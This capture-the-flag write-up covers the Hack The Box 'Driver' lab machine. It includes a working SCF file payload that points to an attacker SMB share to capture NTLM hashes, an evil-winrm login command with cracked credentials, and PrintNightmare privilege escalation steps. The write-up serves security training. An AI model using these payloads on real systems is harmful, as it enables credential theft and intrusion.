 # ***Hack The Box: Driver Write-Up***



**ENUMERATION:**

Firstly, we perform an NMap scan on the target.
![](https://i.imgur.com/rNscbHF.png)

Trying to access the site we are met with a pop up screen. admin:admin allowed us access.
![](https://i.imgur.com/Clh2q50.png)
![](https://i.imgur.com/lV0LMb1.png)

Looks like we can submit our own files.
After searching for exploits I found out we can perform a SCF(Shell Command Files) file attack.




---
[Shell]
Command=2
IconFile=\\10.10.14.101\share\test.ico
[Taskbar]
Command=ToggleDesktop
---

I saved this file as @exploit.scf and uploaded it after starting a responder
![](https://i.imgur.com/aUji3dz.png)
![](https://i.imgur.com/CIMngb5.png)

We crack this NTML hash using hashcat and gain access using evil winrm.




---

evil-winrm -u Tony -p liltony -i 10.10.11.106

---

![](https://i.imgur.com/TQfWEnd.png)



**Privelege Escalation**

We know there is a printer service so we try printnightmare.
[https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html](https://)

We upload the malware:


![](https://i.imgur.com/G2alCsN.png)


By default we can't import the module so we modify the execution policy of the current user and then import it. After that we create a new user using the invoke nightmare command.


![](https://i.imgur.com/h49ww9f.png)


We run evil-winrm again and as we can see we have access to the Administrator user.

![](https://i.imgur.com/Tv1PupR.png)















